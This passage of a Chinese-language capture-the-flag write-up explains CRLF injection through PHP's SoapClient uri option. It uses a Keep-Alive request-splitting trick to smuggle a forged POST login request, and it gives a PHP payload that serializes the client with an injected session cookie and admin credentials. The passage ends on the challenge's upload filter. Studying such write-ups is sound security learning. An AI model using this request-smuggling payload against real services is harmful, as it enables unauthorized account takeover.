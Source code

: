 根据刚才分析，知道uri这个注入点没办法伪造`Content-Type` 但是难道就不能利用了么？ 

（这次跟着@magicBlue学了一招）看请求，注意到一个细节`Connection: Keep-Alive` ,说明这是一个长http连接，有什么用呢，来测试一下：

写一个测试代码如下：

```php
//2.php 
<?php 
    var_dump($_GET);
    var_dump($_POST);
```

做下面的测试：

![http://pic.wonderkun.cc/uploads/2018/03/5.png](http://pic.wonderkun.cc/uploads/2018/03/5.png)

可以发现当第一个请求的`Connection: Keep-Alive`的时候，接着的那个请求也会被响应。也就是说在一次HTTP连接中可以同时又多个HTTP请求头和请求体，但是当前请求被响应的前提是，前一个请求有`Connection: Keep-Alive` 。 （测试的时候需要注意`Content-Length`字段，需把burp中的`repeater->update content-length`选项关掉）

**这里就也给了我们一个很重要的启示，如果我们遇到一个GET型的CRLF注入，但是我们需要的却是一个POST类型的请求，就可以用这种方式，在第一个请求中注入一个`Connection: Keep-Alive`,然后接着往下注入第二个请求，就可以实现我们的目的。**

这里写一下payload：

```php
$uri = "http://www.baidu.com/?test=blue\r\nContent-Length: 0\r\n\r\n\r\nPOST /index.php?action=login HTTP/1.1\r\nHost: 127.0.0.1\r\nCookie: PHPSESSID=52m5ugohiki56gds9c6t71rj92\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 45\r\nConnection: Close\r\n\r\nusername=admin&password=nu1ladmin&code=435137\r\n\r\n\r\n";
$location = "http://127.0.0.1/test";  //注意这里一定不要写 index.php?action=login,否则第一个请求会改变验证码的值
$event = new SoapClient(null,array('location'=>$location,'uri'=>$uri));
echo  urlencode(serialize($event));
```

![http://pic.wonderkun.cc/uploads/2018/03/6.png](http://pic.wonderkun.cc/uploads/2018/03/6.png)

这两种方法都可以拿到管理员权限。

### 0x5利用bash的特性，绕过删除

拿到管理员权限之后，就可以上传了，但是有个坑点：

```php
$file_true_name = str_replace('.','',pathinfo($file['name'])['filename']);
        $file_true_name = str_replace('/','',$file_true_name);
        $file_true_name = str_replace('\\','',$file_true_name);
        $file_true_name = $file_true_name.time().rand(1,100).'.jpg';
        $move_to_file = $user_path."/".$file_true_name;
        if(move_uploaded_file($uploaded_file,$move_to_file)) {
            if(stripos(file_get_contents($move_to_file),'<?php')>=0)
                system('sh /home/nu1lctf/clean_danger.sh');
            return $file_true_name;
        }
```
